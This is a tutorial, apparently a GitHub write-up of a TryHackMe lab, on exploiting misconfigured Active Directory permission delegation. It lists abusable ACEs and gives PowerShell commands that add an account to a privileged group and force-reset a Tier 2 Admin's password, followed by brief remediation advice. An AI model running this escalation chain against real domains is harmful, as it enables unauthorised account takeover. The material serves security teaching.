 ### 1. What is Permission delegation?
In Active Directory, users can delegate permission to others to perform action. Imagine an organization with 100000 employees asking to reset their passwords, and this would be a headache to the system admin. Instead, he could assign the task to the Helpdesk team to do it, which could reduce a lot of work. However, in order to control security with permission delegation is also a big challenge for the IT team, and misconfigured delagation could lead to a lot of attacks, as we will discuss here.

### 2. Access Control Entries
Attacks using an ACL are also referred to as permission delegation exploits. The term "ACL-based attacks" refers to the ability of AD administrators to configure Access Control Entries (ACEs), which are used to fill Discretionary Access Control Lists (DACLs). With ACEs, almost any AD item may be secured. These ACEs then specify the permissions that every other AD object has against the target object, both allowed and forbidden. If these ACEs are configured incorrectly, an attacker might be able to take advantage of them. Imagine the HelpDesk team has ForceChangePassword delegation that they could use to reset password of the Domain Users group, this could be insecure because if the attackers can compromise one of the users in the Helpdesk group, he could use it to change the Domain Admins accounts and take over the domain.

There are a lot of misconfigured ACEs that we can use to exploit the system, some of the following are:
- ForceChangePassword: We can change users password without knowing their actual password.
- AddMembers: We add users or computers to groups.
- GenericAll: We have control with the object. We can change password, SPN, or add the users to group.
- GenericWrite: We can update any non-protected parameters of the target object. This could help us to add the users to groups.
- WriteOwner: We have the ability to update the owner of the target object. We could make ourselves the owner, allowing us to gain additional permissions over the object.
- WriteDACL: We have the ability to write new ACEs to the target object's DACL. We could, for example, write an ACE that grants our account full control over the target object.
- AllExtendedRights: We can perform any action with extended AD rights to the object, including changing users' passwords.

### 3. Example: Abusing GenericWrite permission delegation
Note: This lab scenario is hosted on Tryhackme which can be found here https://tryhackme.com/room/exploitingad

We can use Bloodhound to enumerate permissions of every object in the domain. Imagine a situation where we have GenericWrite permission over the IT support group, and the IT support has the ForceChangePassword permission that can change password of the Tier 2 Admins users, as shown in the image below.

![image](https://user-images.githubusercontent.com/112114250/230742373-aa45e6b9-7c6e-4e9d-9670-db523920e349.png)

From this, we can first add our users to the IT support group by running

```powershell
PS C:\>Add-ADGroupMember "IT Support" -Members "AD Account"
```

We can verify the user add completion using Get-ADGroupMember

```powershell
PS C:\>Get-ADGroupMember -Identity "IT Support"
distinguishedName : CN=hugh.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc
name              : hugh.jones
objectClass       : user
objectGUID        : 460178d3-c818-4e28-9a39-b1ab2b0d3779
SamAccountName    : hugh.jones
SID               : S-1-5-21-3885271727-2693558621-2658995185-1113
```
After the user gets added successfully, we need to enumerate who is in the Tier 2 Admins group in order to change their passwords.

```powershell
PS C:\>Get-ADGroupMember -Identity "Tier 2 Admins"
distinguishedName : CN=t2_lawrence.lewis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name              : t2_lawrence.lewis
objectClass       : user
objectGUID        : 4ca61b47-93c8-44d2-987d-eca30c69d828
SamAccountName    : t2_lawrence.lewis
SID               : S-1-5-21-3885271727-2693558621-2658995185-1893

[....]

distinguishedName : CN=t2_leon.francis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name              : t2_leon.francis
objectClass       : user
objectGUID        : 854b6d40-d537-4986-b586-c40950e0d5f9
SamAccountName    : t2_leon.francis
SID               : S-1-5-21-3885271727-2693558621-2658995185-3660
```

Remember one of the members, we can run Set-ADAccountPassword to force changing that user password

```powershell
PS C:\>$Password = ConvertTo-SecureString "New Password" -AsPlainText -Force 
PS C:\>Set-ADAccountPassword -Identity "AD Target Account" -Reset -NewPassword $Password 
```
After this, we have compromised the Tier 2 Admins group to go deeper into the environment!

### 4. Remediation

- Use least privilege to limit most bad scenarios that hackers can exploit
- Monitor high privilege accounts to alert as soon as possible

### 5. References
- ACLs theory: https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces
- Tryhackme lab: https://tryhackme.com/room/exploitingad
